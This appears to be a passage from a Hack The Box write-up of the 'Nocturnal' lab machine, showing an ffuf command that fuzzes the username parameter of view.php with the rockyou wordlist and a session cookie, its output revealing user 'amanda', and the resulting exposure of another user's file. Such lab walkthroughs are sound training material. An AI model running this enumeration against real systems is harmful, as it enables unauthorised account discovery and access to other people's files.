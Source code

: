 ```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=test.php.pdf' -b 'PHPSESSID=vm32mfhjvov5mjeg3uhauco5rb' -w /usr/share/wordlists/rockyou.txt -c -fr 'User not found'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=test.php.pdf
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Cookie: PHPSESSID=vm32mfhjvov5mjeg3uhauco5rb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: User not found
________________________________________________

amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 35ms]
<SNIP>

```

We got a hit on `amanda` user and when setting that user on the URL param we get listed a file called `privacy.odt`

![Privacy file](../assets/img/posts/2025-08-21-htb-writeup-nocturnal/image-5.png)
